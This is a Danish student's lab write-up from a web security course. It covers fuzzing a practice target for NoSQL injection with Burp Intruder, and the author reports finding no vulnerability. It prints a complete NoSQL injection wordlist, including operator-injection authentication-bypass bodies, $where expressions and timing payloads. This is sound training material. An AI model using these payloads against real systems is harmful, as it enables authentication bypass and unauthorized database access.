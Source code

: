 Det virker ikke som om det bruger en SQl database. Derfor kunne det være en noSQL database.

### Del opgave - Discovering NoSQL Injection with Fuzzing

!!! note "Opgve beskrivelse"

    1. Create a small custom wordlist with NoSQL payloads.
    1. Clear the previous payload list in Intruder.
    1. Load your new NoSQL wordlist as the payload.
    1. Run the attack.
    1. Watch for anomalous status codes or unexpected content lengths.

Opgaven har givet denne liste til at fuzze med:
??? note "noSQL Fuzzing list"

    ```txt
    true
    $where: '1 == 1'
    , $where: '1 == 1'
    $where: '1 == 1'
    ', $where: '1 == 1
    1, $where: '1 == 1'
    { $ne: 1 }
    ', $or: [ {}, { 'a':'a
    ' } ], $comment:'successful MongoDB injection'
    db.injection.insert({success:1});
    db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
    || 1==1
    || 1==1//
    || 1==1%00
    }, { password : /.*/ }
    ' && this.password.match(/.*/)//+%00
    ' && this.passwordzz.match(/.*/)//+%00
    '%20%26%26%20this.password.match(/.*/)//+%00
    '%20%26%26%20this.passwordzz.match(/.*/)//+%00
    {$gt: ''}
    [$ne]=1
    ';sleep(5000);
    ';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
    {"username": {"$ne": null}, "password": {"$ne": null}}
    {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
    {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
    {"username": {"$gt":""}, "password": {"$gt":""}}
    {"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
    {"$ne": null}
    ```

Jeg prøver det samme fuzzing angreb nu med en noSQL liste.

Det fandt jeg heller ikke nogle tegn på sårbarheder.

### Del opgave - Discovering possible Juice shop SQL injection vulnerability with fuzzing
